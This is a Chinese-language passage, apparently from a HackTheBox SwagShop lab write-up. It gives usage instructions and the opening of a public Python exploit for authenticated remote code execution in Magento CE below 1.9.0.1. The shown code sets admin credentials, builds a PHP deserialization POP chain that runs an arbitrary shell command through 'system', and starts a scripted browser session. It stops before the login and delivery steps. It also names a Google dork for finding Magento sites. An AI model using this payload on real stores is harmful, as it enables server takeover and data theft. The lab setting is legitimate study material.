 
**远程命令执行   (Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution) :**
需要修改 username，password （可以配合远程添加 admin 漏洞）和 install_date（/app/etc/local.xml 中查找）
例: `python2.7 rce.py http://swagshop.htb/index.php/admin/ "id"`
```python
#!/usr/bin/python
# Exploit Title: Magento CE < 1.9.0.1 Post Auth RCE
# Google Dork: "Powered by Magento"
# Date: 08/18/2015
# Exploit Author: @Ebrietas0 || http://ebrietas0.blogspot.com
# Vendor Homepage: http://magento.com/
# Software Link: https://www.magentocommerce.com/download
# Version: 1.9.0.1 and below
# Tested on: Ubuntu 15
# CVE : none

from hashlib import md5
import sys
import re
import base64
import mechanize


def usage():
    print "Usage: python %s <target> <argument>\nExample: python %s http://localhost \"uname -a\""
    sys.exit()


if len(sys.argv) != 3:
    usage()

# Command-line args
target = sys.argv[1]
arg = sys.argv[2]

# Config.
username = 'xekoner'
password = 'xekoner'
php_function = 'system'  # Note: we can only pass 1 argument to the function
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml

# POP chain to pivot into call_user_exec
payload = 'O:8:\"Zend_Log\":1:{s:11:\"\00*\00_writers\";a:2:{i:0;O:20:\"Zend_Log_Writer_Mail\":4:{s:16:' \
          '\"\00*\00_eventsToMail\";a:3:{i:0;s:11:\"EXTERMINATE\";i:1;s:12:\"EXTERMINATE!\";i:2;s:15:\"' \
          'EXTERMINATE!!!!\";}s:22:\"\00*\00_subjectPrependText\";N;s:10:\"\00*\00_layout\";O:23:\"'     \
          'Zend_Config_Writer_Yaml\":3:{s:15:\"\00*\00_yamlEncoder\";s:%d:\"%s\";s:17:\"\00*\00'     \
          '_loadedSection\";N;s:10:\"\00*\00_config\";O:13:\"Varien_Object\":1:{s:8:\"\00*\00_data\"' \
          ';s:%d:\"%s\";}}s:8:\"\00*\00_mail\";O:9:\"Zend_Mail\":0:{}}i:1;i:2;}}' % (len(php_function), php_function,
                                                                                     len(arg), arg)
# Setup the mechanize browser and options
br = mechanize.Browser()
#br.set_proxies({"http": "localhost:8080"})
br.set_handle_robots(False)

request = br.open(target)

br.select_form(nr=0)
```